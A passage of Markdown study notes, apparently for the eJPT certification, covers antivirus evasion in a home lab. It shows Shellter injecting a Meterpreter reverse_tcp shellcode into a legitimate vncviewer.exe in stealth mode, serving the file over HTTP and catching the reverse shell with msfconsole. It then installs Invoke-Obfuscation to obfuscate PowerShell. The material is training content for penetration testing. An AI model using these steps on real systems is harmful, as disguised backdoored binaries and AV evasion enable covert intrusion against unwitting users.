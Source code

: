 * Inject the shellcode into`/usr/share/windows-binaries/vncviewer.exe` file after copying it to a folder

```bash
mkdir AVBypass
cd AVBypass
cp /usr/share/windows-binaries/vncviewer.exe .
```

* In the `SHELLTER` windows, choose `A` for automatic
* PE Target: `/home/kali/certs/ejpt/AVBypass/vncviewer.exe`
* Stealth Mode: `Y` = `vncviewer` will function as normal and the shellcode will be executed in the background
* Payload: `L` - `1`
* LHOST: Attacker's IP - `192.168.31.128`
* LPORT: `1234`
* Now the `/home/kali/certs/ejpt/AVBypass/vncviewer.exe` **file has been replaced by the Shellter generated malicious executable**
* Copy the `vncviewer.exe` file to the target machine

```bash
# Attacker VM
cd /home/kali/certs/ejpt/AVBypass/
sudo python -m http.server 80

# In another terminal
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.31.128
set LPORT 1234
run
```

* Run the `vncviewer.exe` file and chheck the `msfconsole` Meterpreter session

### PowerShell Code Obfuscation

[**`Invoke-Obfuscation`**](https://github.com/danielbohannon/Invoke-Obfuscation) - _a PowerShell v2.0+ compatible PowerShell command and script obfuscator._

> 🔬 Home lab with Kali Linux and Win7 VMs

* Kali Linux install PowerShell

```bash
cd /opt
sudo git clone https://github.com/danielbohannon/Invoke-Obfuscation.git
sudo apt update && sudo apt install -y powershell
```

* Run `pwsh`

```bash
pwsh
cd /opt/Invoke-Obfuscation/
Import-Module ./Invoke-Obfuscation.psd1
cd ..
Invoke-Obfuscation
```
